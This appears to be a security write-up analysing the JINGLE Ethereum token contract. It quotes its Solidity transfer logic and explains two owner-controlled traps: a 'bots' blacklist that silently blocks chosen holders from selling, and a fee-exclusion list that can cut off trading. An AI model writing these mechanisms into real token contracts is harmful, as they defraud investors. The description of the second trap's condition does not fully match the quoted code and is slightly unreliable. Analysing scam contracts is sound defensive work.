


## JINGLE - [0xC840599EFE25F9849375E2119fb6945035f70115](https://etherscan.io/address/0xc840599efe25f9849375e2119fb6945035f70115#code)

### 1. Introduction
This malicious contract incorporates a total of two tricks, within the conditional checking category. 

### 2. Analysis

- **_Blacklist checking (Conditional checking):_**
  
  _The variable "bots" is a lsit/map designed to store addresses. Its population is restricted to the creator of the contract, granting them the exclusive ability to utilize it as a mechanism for preventing selective investors from selling their tokens._
  
- **_whitelisting checking (Conditional checking):_**
  
  _The creator has the ability to add/remove the UniswapV2Pair address to the "\_isExcludedFromFees" list/map, which acts as a whitelist. This allows them to disable trading by removing the UniswapV2Pair address from the list/map._ 

### 3. Explanation

- **_Blacklist checking (Conditional checking):_**

    ```solidity
    397:     function _transfer(address from, address to, uint256 amount) internal override {
    398:         require(from != address(0), "ERC20: Transfer from the zero address");
    399:         require(to != address(0), "ERC20: Transfer to the zero address");
    400: 
    401:         if (automatedMarketMakerPairs[to] && bots[from]) {
    402:             return;
    403:         }
    404:         else if (automatedMarketMakerPairs[from] && bots[to]) {
    405:             require(automatedMarketMakerPairs[from] && bots[to]);
    406:         }
    407:         else {
    408:             if (bots[to]) {
    409:                 return;
    410:             }
    411:         }
    412: 
    413:          if (amount == 0) {
    414:             return;
    415:         }
    416:         
    417:         if (limitsInEffect) {
    418:             if (from != owner() && to != owner() && to != address(0) && to != address(0xdead)) {
    419:                 if (!tradingActive){
    420:                     require(_isExcludedFromFees[from] || _isExcludedFromFees[to], "Trading has not been activated.");
    421:                 }
    422:                   
    423:                 if (transferDelayEnabled) {
    424:                     if (to != address(uniswapV2Router) && to != address(uniswapV2Pair)) {
    425:                         require(_holderLastTransferTimestamp[tx.origin] < block.number - 4 
    426:                         && _holderLastTransferTimestamp[to] < block.number - 4, "_transfer:: Transfer delay enabled. Try again later.");
    427:                         _holderLastTransferTimestamp[tx.origin] = block.number;
    428:                         _holderLastTransferTimestamp[to] = block.number;
    429:                     }
    430:                 }
    431:                  
    432:                 if (automatedMarketMakerPairs[from] && !_isExcludedMaxTransactionAmount[to]) {
    433:                     require(amount <= maxBuyAmount, "Buy amount exceeds the max buy.");
    434:                     require(amount + balanceOf(to) <= maxWalletAmount, "Cannot exceed max wallet");
    435:                 } 
    436:                 else if (automatedMarketMakerPairs[to] && !_isExcludedMaxTransactionAmount[from]) {
    437:                     require(amount <= maxSellAmount, "Sell amount exceeds the max sell.");
    438:                 } 
    439:                 else if (!_isExcludedMaxTransactionAmount[to] && !_isExcludedMaxTransactionAmount[from]) {
    440:                     require(amount + balanceOf(to) <= maxWalletAmount, "Cannot exceed max wallet");
    441:                 }
    442:             }
    443:         }
    444: 
    445:         uint256 contractTokenBalance = balanceOf(address(this));
    446:         
    447:         bool canSwap = contractTokenBalance >= swapTokensAtAmount;
    448: 
    449:         if (canSwap && swapEnabled && !swapping && !automatedMarketMakerPairs[from] 
    450:         && !_isExcludedFromFees[from] && !_isExcludedFromFees[to]) {
    451:             swapping = true;
    452: 
    453:             swapBack();
    454: 
    455:             swapping = false;
    456:         }
    457: 
    458:         bool takeFee = true;
    459: 
    460:         if (_isExcludedFromFees[from] || _isExcludedFromFees[to]) {
    461:             takeFee = false;
    462:         }
    463:         
    464:         uint256 fees = 0;
    465:         uint256 penaltyAmount = 0;
    466: 
    467:         if (takeFee) {
    468: 
    469:             if (tradingActiveBlock + 1 >= block.number && automatedMarketMakerPairs[from]) {
    470:                 bots[to] = true;
    471:             } 
    472: 
    473:             if (automatedMarketMakerPairs[to] && sellTotalFees > 0) {
    474:                 fees = amount * sellTotalFees /100;
    475:                 tokensForLiquidity += fees * sellLiquidityFee / sellTotalFees;
    476:                 tokensForOperations += fees * sellOperationsFee / sellTotalFees;
    477:             } 
    478:             else if (automatedMarketMakerPairs[from] && buyTotalFees > 0) {
    479:         	    fees = amount * buyTotalFees / 100;
    480:         	    tokensForLiquidity += fees * buyLiquidityFee / buyTotalFees;
    481:                 tokensForOperations += fees * buyOperationsFee / buyTotalFees;
    482:             }
    483:             
    484:             if (fees > 0) {    
    485:                 super._transfer(from, address(this), fees);
    486:             }
    487:         	
    488:         	amount -= fees + penaltyAmount;
    489:         }
    490: 
    491:         super._transfer(from, to, amount);
    492:     }
  ```

  ```solidity
    393:     function manageBots(address account, bool isBot) public onlyOwner {
    394:         bots[account] = isBot;
    395:     }
  ``` 

  

    _The "\_transfer" function is invoked by both the "transfer" and "transferFrom" functions in the JINGLE contract,_

    _This trap is activated when a transaction is moving towards the UniswapV2 pair and the sender address is found in the "bots" list/map._

    _The creator has control over this trap. They can use the "manageBots" function to add specific investor addresses into the "bots" list/map, effectively creating a sell restriction mechanism for those investors. Once added to the "bots" list/map, any transaction from those addresses towards the UniswapV2 pair will be halted and the execution of the remaining code in the "\_transfer" function will be stopped, as indicated by the return statement at line number 402. This mechanism provides the creator with control over restricting selling activities for certain investors._.
  
- **_whitelisting checking (Conditional checking):_**

  ```solidity
    378:     function excludeFromFees(address account, bool excluded) public onlyOwner {
    379:         _isExcludedFromFees[account] = excluded;
    380:         emit ExcludeFromFees(account, excluded);
    381:     }
    382: 
  ```

  

  _This trap is activated when a transaction is being processed, and the condition in the if statement at line number 419 evaluates to true. The condition checks if neither the sender nor the recipient address is present in the "\_isExcludedFromFees" list/map._

  _The creator of the contract has control over this trap. They can control the sell restriction mechanism by using the "excludeFromFees" function to remove the uniswapV2pair address from the "\_isExcludedFromFees" list/map. By removing the uniswapV2pair address from the list effectively restricting selling activities through uniswap._